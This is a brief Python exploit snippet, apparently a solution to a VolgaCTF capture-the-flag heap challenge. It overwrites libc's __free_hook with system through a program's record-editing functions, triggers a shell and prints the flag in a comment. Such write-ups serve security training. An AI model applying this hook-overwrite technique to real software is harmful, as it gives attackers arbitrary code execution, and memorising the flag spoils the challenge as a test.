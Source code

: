 ```python
free_hook = libc.sym['__free_hook']
system = libc.sym['system']
new_content = p64(free_hook)[1:]
new_title = 'short' + '\x00'*3 + chr(free_hook & 0xFF)
modify_content('short', new_content)
modify_title('short', new_title)
modify_content('short', p64(system))

# Call shell command
delete_record('shell')
io.interactive() # VolgaCTF{N1cke1_unD_d!mE_a_b!t}
```
